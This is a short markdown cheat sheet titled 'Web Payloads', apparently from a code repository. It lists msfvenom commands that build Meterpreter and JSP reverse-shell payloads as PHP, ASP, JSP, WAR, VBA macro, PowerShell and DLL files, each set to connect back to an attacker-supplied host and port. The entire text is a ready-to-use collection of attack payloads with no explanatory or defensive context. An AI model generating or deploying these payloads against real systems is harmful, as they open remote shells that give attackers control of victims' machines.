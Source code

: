 ## Web Payloads

## msfvenom - PHP Meterpreter Reverse TCP
```
msfvenom -p php/meterpreter/reverse_tcp LHOST=<lhost> LPORT=<lport> -f raw -o shell.php
```

## msfvenom - ASP Meterpreter Reverse TCP
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<lhost> LPORT=<lport> -f asp -o shell.asp
```

## msfvenom - JSP Java Meterpreter Reverse TCP
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<lhost> LPORT=<lport> -f raw -o shell.jsp
```

## msfvenom - WAR Payload
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<lhost> LPORT=<lport> -f war -o shell.war
```

## msfvenom - VBA 32-bit Meterpreter Reverse HTTPS
```
msfvenom -p windows/meterpreter/reverse_https LHOST=<lhost> LPORT=<lport|443> EXITFUNC=thread -f vba -o shell.vba
```

## msfvenom - VBA 64-bit Meterpreter Reverse HTTPS
```
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=<lhost> LPORT=<lport|443> EXITFUNC=thread -f vba -o shell_x64.vba
```

## msfvenom - PowerShell 32-bit Meterpreter Reverse HTTPS
```
msfvenom -p windows/meterpreter/reverse_https LHOST=<lhost> LPORT=<lport|443> EXITFUNC=thread -f psh -o shell.ps1
```

## msfvenom - PowerShell 64-bit Meterpreter Reverse HTTPS
```
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=<lhost> LPORT=<lport|443> EXITFUNC=thread -f psh -o shell_x64.ps1
```

## msfvenom - DLL Payload (Windows x86 Meterpreter Reverse HTTPS)
```
msfvenom -p windows/meterpreter/reverse_https LHOST=<lhost> LPORT=<lport|443> -f dll -o output_x86.dll
```
